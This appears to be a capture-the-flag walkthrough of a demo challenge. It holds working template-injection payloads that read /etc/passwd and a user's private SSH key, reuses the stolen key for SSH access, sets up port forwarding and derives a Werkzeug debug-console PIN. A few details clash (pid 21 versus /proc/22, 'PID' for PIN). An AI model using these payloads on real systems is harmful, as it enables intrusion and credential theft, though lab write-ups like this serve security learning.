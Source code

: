 ## Prologue: The Library

First of all a light nmap scan for open ports:

```shell
nmap -sV ctfdemo.interlogica.ninja
```
We can see two open ports: 443 for https and 2222 for ssh.

Let's visit the website.
By fuzzing the filter we find out that we get an error if we input something like `#{` or `#[`, which reveals to us that
the Pug templating engine is in use and that it's vulnerable to SSTI. We can then leverage the vulnerability to perform
RCE.
Let's first read some local files:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

We see that the user `dave` exists. Let's see if he has a private ssh key that we can snatch:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/home/dave/.ssh/id_rsa']).stdout}

Alright. Now we can connect via ssh using dave's private key:

```shell
chmod 600 <dave_id_rsa>
ssh dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p 2222
```

While pillaging, we find out that a python application is running locally on port 5000 with the following command:

```shell
netstat -tulpn
```

Since the application only accepts connections from localhost, from our attack machine we can use ssh to do a local port
forward:

```shell
ssh -L 5001:127.0.0.1:5000 dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p <ssh_port>
```

Now we can access the remote python service on local port 5001.
By dirbusting with the provided wordlist, we find out that the `/console` page is available, which means that the
application is running with the debug mode activated.
We can retrieve the pin using the following guide:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

We have to fill the following stuff:

```python
probably_public_bits = [
    '<username>',
    'flask.app',
    'Flask',
    '<app.py_location>'
]

private_bits = [
    '<private_bit_1>',
    '<private_bit_2>'
]
```

Let's find the location of the flask `app.py`:

```shell
find / -type f  -name app.py 2>/dev/null
/usr/local/lib/python3.10/site-packages/flask/sansio/app.py
/usr/local/lib/python3.10/site-packages/flask/app.py
```
So `/usr/local/lib/python3.10/site-packages/flask/app.py` it is.

Then:

```shell
python -c "import uuid;print(str(uuid.getnode()))"
2485378023426
```

gives us the value of `private_bit_1`. NOTE: this value and/or the value of `private_bit_2` will change at every reboot.
Let's calculate the value of `private_bit_2`:

```shell
cat /proc/sys/kernel/random/boot_id
1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74
ps aux | grep python
8 admin     0:00 python3 /home/admin/app.py
21 admin     0:01 /usr/local/bin/python3 /home/admin/app.py
79 dave      0:00 grep python
```

so the username is `admin`. The pid is `21`.

```shell
head -n 1 /proc/22/cgroup | awk -F/ '{print $NF}'
9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10
```

The value of `private_bit_2` then is the concatenation of `1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74`
and `9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10`.

Let's put the values we found in the python script and let's run it.

```python
probably_public_bits = [
    'admin',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',
    '1d0ab7ff-1550-45ca-a92d-3b4ed58eaa749c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10'
]
```

We got the PID! Now we can open the file we want to read:

```python
with open('/admin/requests/<uuid>', 'r') as file:
    print(file.read())
```
Let's visit the url in the file now!

Ouch.